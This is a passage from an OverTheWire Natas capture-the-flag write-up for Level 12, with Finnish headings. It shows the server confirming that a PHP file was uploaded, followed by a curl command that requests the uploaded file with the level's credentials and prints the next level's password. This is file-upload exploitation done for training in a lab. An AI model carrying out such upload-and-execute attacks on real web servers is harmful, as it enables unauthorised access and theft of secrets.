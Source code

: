 ```
<div id="content">
The file <a href="upload/zfz5mxj4y0.php">upload/zfz5mxj4y0.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

┌──(kali㉿kali)-[~]
└─$ curl -u natas12:yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB "http://natas12.natas.labs.overthewire.org/upload/zfz5mxj4y0.php"
trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC

```

![alt text](./kuvat-level11-15/natas12-Kali3.png)


## Level 12 - 4 - vinkkejä ja ohjeita:
